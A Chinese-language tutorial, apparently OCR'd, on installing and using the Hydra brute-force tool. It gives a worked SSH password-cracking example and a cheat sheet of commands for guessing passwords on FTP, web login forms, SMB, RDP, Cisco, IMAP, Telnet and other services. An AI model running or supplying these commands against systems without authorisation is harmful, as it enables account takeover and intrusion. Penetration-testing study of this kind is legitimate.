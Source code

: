 1.  Hydra介绍

    Hydra也叫九头蛇，是一款开源的暴力破解工具。

2.  Hydra安装

（一）Window环境

hydra-8.1-windows.zip解压后使用，通过cmd进入命令行，使用hydra -h查看是否安装成功

![](media/image1.png)

（二）Linux环境

kali

1.在kali中打开终端，直接输入hydra，可以看到hydra的版本、参数、以及可以爆破的协议。

![](media/image2.png)

3.  实例

    举个栗子 爆破SSH

    用 -l 参数指定用户名，-p参数指定密码，后面直接跟目标的IP地址和协议。

hydra -l root -p 12345678 192.168.31.173 ssh

![](media/image3.png)

破解成功，直接显示结果。

**其他类型密码破解**

1.破解ftp：

\# hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV

\# hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

get方式提交，破解web登录：

\# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/

\# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php

post方式提交，破解web登录：

　　该软件的强大之处就在于支持多种协议的破解，同样也支持对于web用户界面的登录破解，get方式提交的表单比较简单，这里通过post方式提交密码破解提供思路。该工具有一个不好的地方就是，如果目标网站登录时候需要验证码就无法破解了。带参数破解如下：

\<form action="index.php" method="POST"\>

\<input type="text" name="name" /\>\<BR\>\<br\>

\<input type="password" name="pwd" /\>\<br\>\<br\>

\<input type="submit" name="sub" value="提交"\>

\</form\>

　　假设有以上一个密码登录表单，我们执行命令：

\# hydra -l admin -P pass.lst -o ok.lst -t 1 -f 127.0.0.1 http-post-form “index.php:name=^USER^&pwd=^PASS^:\<title\>invalido\</title\>”

　　说明：破解的用户名是admin，密码字典是pass.lst，破解结果保存在ok.lst，-t 是同时线程数为1，-f 是当破解了一个密码就停止，ip 是本地，就是目标ip，http-post-form表示破解是采用http 的post 方式提交的表单密码破解。

　　后面参数是网页中对应的表单字段的name 属性，后面\<title\>中的内容是表示错误猜解的返回信息提示，可以自定义。

2.破解https：

\# hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

3.破解teamspeak：

\# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

4.破解cisco：

\# hydra -P pass.txt 10.36.16.18 cisco

\# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

5.破解smb：

\# hydra -l administrator -P pass.txt 10.36.16.18 smb

6.破解pop3：

\# hydra -l muts -P pass.txt my.pop3.mail pop3

7.破解rdp：

\# hydra ip rdp -l administrator -P pass.txt -V

8.破解http-proxy：

\# hydra -l admin -P pass.txt http-proxy://10.36.16.18

9.破解imap：

\# hydra -L user.txt -p secret 10.36.16.18 imap PLAIN

\# hydra -C defaults.txt -6 imap://\[fe80::2c:31ff:fe12:ac11\]:143/PLAIN

10.破解telnet

\# hydra ip telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V
